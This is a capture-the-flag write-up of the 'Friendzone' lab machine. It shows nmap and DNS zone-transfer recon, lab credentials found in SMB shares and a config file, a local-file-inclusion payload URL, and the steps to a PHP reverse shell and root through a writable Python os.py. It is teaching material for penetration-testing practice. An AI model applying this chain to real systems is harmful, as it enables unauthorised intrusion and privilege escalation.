# Friendzone

## Machine Info



## Recon

- nmap

```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a9:68:24:bc:97:1f:1e:54:a5:80:45:e7:4c:d9:aa:a0 (RSA)
|   256 e5:44:01:46:ee:7a:bb:7c:e9:1a:cb:14:99:9e:2b:8e (ECDSA)
|_  256 00:4e:1a:4f:33:e8:a0:de:86:a6:e4:2a:5f:84:61:2b (ED25519)
53/tcp  open  domain      ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.11.3-1ubuntu1.2-Ubuntu
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Friend Zone Escape software
|_http-server-header: Apache/2.4.29 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open  ssl/http    Apache httpd 2.4.29
| ssl-cert: Subject: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO
| Not valid before: 2018-10-05T21:02:30
|_Not valid after:  2018-11-04T21:02:30
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 404 Not Found
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
445/tcp open  p#߬U      Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (96%), Linux 3.16 (95%), Linux 3.18 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.1 (93%), Linux 3.2 (93%), Linux 3.10 - 4.11 (93%), DD-WRT (Linux 3.18) (93%), Linux 4.10 (93%), Linux 4.2 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Hosts: FRIENDZONE, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- path recon

```
200      GET       92l      454w    37253c http://10.10.10.123/fz.jpg
200      GET       12l       31w      324c http://10.10.10.123/
301      GET        9l       28w      316c http://10.10.10.123/wordpress => http://10.10.10.123/wordpress/
200      GET     2961l    16611w   635009c https://friendzoneportal.red/z.gif
200      GET        5l        7w       66c https://friendzoneportal.red/
```

- subdomain recon
  - `gobuster vhost`
  - `dig` based on port 53, [53 - Pentesting DNS - HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-dns)

```bash
$ dig axfr @10.10.10.123 friendzone.red

; <<>> DiG 9.18.16-1-Debian <<>> axfr @10.10.10.123 friendzone.red
; (1 server found)
;; global options: +cmd
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
friendzone.red.         604800  IN      AAAA    ::1
friendzone.red.         604800  IN      NS      localhost.
friendzone.red.         604800  IN      A       127.0.0.1
administrator1.friendzone.red. 604800 IN A      127.0.0.1
hr.friendzone.red.      604800  IN      A       127.0.0.1
uploads.friendzone.red. 604800  IN      A       127.0.0.1
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 39 msec
;; SERVER: 10.10.10.123#53(10.10.10.123) (TCP)
;; WHEN: Wed Dec 20 19:42:26 CST 2023
;; XFR size: 8 records (messages 1, bytes 289)
```

- collect domain names

```
friendzoneportal.red
admin.friendzoneportal.red
friendzone.red
administrator1.friendzone.red
hr.friendzone.red
uploads.friendzone.red
```

- smb recon: general, Development
  - **Development** is readable and writable
  - inside general find sensitive cred



```bash
$ cat creds.txt
creds for the admin THING:

admin:WORKWORKHhallelujah@#
```

- another point to find a domain name


## Foothold

### LFI

- https://uploads.friendzone.red/upload.php -> unable to get the file name of uploaded stuff

- https://administrator1.friendzone.red/login.php with cred: `admin:WORKWORKHhallelujah@#`





- test url params



- `https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=dashboard` -> recursive page -> LFI [?]
- LFI POC: `https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=php://filter/convert.base64-encode/resource=login`



- **LFI** -> execute xxx**.php** -> write **/etc/Development/a.php** (php reverse shell) based on smb **Development**

- then visit: `https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/a`



## Privilege Escalation

### backup cred

- search inside www directory -> mysql config file -> cred `friend:Agpyu12!0.213$` -> **ssh** conn

```bash
www-data@FriendZone:/var/www$ cat mysql_data.conf
cat mysql_data.conf
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
```



### writable python package

- after ssh conn as friend
  - linpeas -> find nothing
  - pspy





- two commands: /usr/bin/python /opt/server_admin/**reporter**.py, /bin/sh -c /opt/server_admin/**reporter**.py



- know that can run this python file to send emails based on os package -> able to trigger shell command

```bash
friend@FriendZone:/tmp$ python --version
Python 2.7.15rc1
```

- import os -> check os.py

```bash
friend@FriendZone:/tmp$ locate os.py
/usr/lib/python2.7/os.py
/usr/lib/python2.7/os.pyc
/usr/lib/python2.7/dist-packages/samba/provision/kerberos.py
/usr/lib/python2.7/dist-packages/samba/provision/kerberos.pyc
/usr/lib/python2.7/encodings/palmos.py
/usr/lib/python2.7/encodings/palmos.pyc
/usr/lib/python3/dist-packages/LanguageSelector/macros.py
/usr/lib/python3.6/os.py
/usr/lib/python3.6/encodings/palmos.py
```



- **os.py** is **writable** -> write a rshell python code -> root shell



## Exploit Chain

port recon -> 53 dns -> dig domain names -> LFI to trigger rshell.php + writable smb file for uploading rshell.php -> www-data -> friend cred -> ssh conn -> pspy -> py script as root -> os package writable -> py rshell included in os.py -> root shell

